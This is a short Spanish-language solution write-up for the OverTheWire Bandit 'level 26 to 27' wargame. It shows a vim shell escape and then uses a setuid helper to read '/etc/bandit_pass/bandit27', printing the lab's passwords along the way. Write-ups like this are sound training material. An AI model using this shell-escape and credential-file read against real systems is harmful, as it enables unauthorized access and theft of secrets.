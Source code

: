 # Level 26 🡪 Level 27
## Objetivo
Good job getting a shell! Now hurry and grab the password for bandit27!
## Datos de acceso al nivel
```
Server: bandit.labs.overthewire.org
User: bandit26
Password: c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1
```
## Solución
```
:set shell=/bin/bash

:shell

bandit26@bandit:~$ ls
bandit27-do  text.txt
bandit26@bandit:~$ ./bandit27-do id
uid=11026(bandit26) gid=11026(bandit26) euid=11027(bandit27) groups=11026(bandit26)
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS
bandit26@bandit:~$
```

## Notas adicionales
## Referencias
https://overthewire.org/wargames/bandit/bandit27.html